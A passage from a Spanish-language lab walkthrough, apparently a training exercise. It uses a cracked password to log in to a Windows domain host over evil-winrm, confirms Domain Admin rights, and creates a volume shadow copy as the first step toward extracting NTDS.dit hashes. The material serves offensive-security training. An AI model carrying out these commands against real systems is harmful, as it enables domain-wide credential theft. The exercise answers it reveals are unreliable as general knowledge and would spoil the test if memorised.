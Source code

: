 Que la contraseña es "P@ssword!"

Siendo la respuesta total del ejercicio:
```
jmarston:P@ssword!
```

**4.  Capture the NTDS.dit file and dump the hashes. Use the techniques taught in this section to crack Jennifer Stapleton's password. Submit her clear-text password as the answer. (Format: Case-Sensitive)**

Ejecutaré:
```
evil-winrm -i 10.129.202.85  -u jmarston -p 'P@ssword!'
```

Dándome como respuesta una terminal:

```
*Evil-WinRM* PS C:\Users\jmarston\Documents> 
```

Comprobando que el usuario tenga credenciales de administrador:
```
*Evil-WinRM* PS C:\Users\jmarston\Documents> net user jmarston
User name                    jmarston
Full Name                    John Marston
Comment                      IT Directory
User's comment
....
User profile
Home directory
Last logon                   10/10/2025 6:26:58 AM

Logon hours allowed          All

Local Group Memberships
Global Group memberships     *Domain Admins        *Domain Users
                             *Leadership
The command completed successfully.

```

Las tiene! 

Hago una shadow de la ubicación con:
```
*Evil-WinRM* PS C:\Users\jmarston\Documents> vssadmin CREATE SHADOW /For=C:
vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Successfully created shadow copy for 'C:\'
    Shadow Copy ID: {01a34975-db42-48ab-81a4-024b06f395e1}
    Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1

```
